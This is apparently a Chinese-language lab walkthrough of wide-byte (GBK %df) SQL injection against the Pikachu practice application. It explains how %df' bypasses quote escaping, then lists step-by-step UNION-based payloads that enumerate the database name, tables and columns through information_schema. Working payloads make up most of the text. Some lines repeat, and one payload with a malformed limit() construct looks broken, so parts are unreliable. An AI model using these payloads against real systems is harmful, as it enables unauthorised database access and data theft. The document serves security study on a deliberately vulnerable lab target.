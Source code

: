 payload改为：`%df'`

转义后 `%df\'`

因此，url编码后payload为：

%df%5c%27

当mysql使用gbk编码时，会认为 %df%5c 是一个**宽字符**，payload 就变成了縗'



判断是否存在注入，和可显示的字段数

`1%df' union select 1,2#`

`1%df'%20union%20select%201,2#`

得出数据库名

`1%df'%20union%20select%201,database()#`

pikachu

得出表名

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`

`1%df'%20union%20select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()#`



`1%df'%20union select group_concat(column_name),2 from information_schema.columns where table_name=“users” #`



`limit((select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),3,1)`



```
1%df'%20union%20select%20group_concat(column_name),2%20from%20information_schema.columns%20where%20table_name=limit((select%201,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),3,1)#
```

```
1%df'%20union%20select (select group_concat(column_name) from information_schema.columns where table_schema=(select database()) and table_name=(select table_name from information_schema.tables where table_schema=(select database())limit 3,1)),2#
```

```
1%df'%20union%20select%20(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=(select%20database())%20and%20table_name=(select%20table_name%20from%20information_schema.tables%20where%20table_schema=(select%20database())limit%203,1)),2#
```

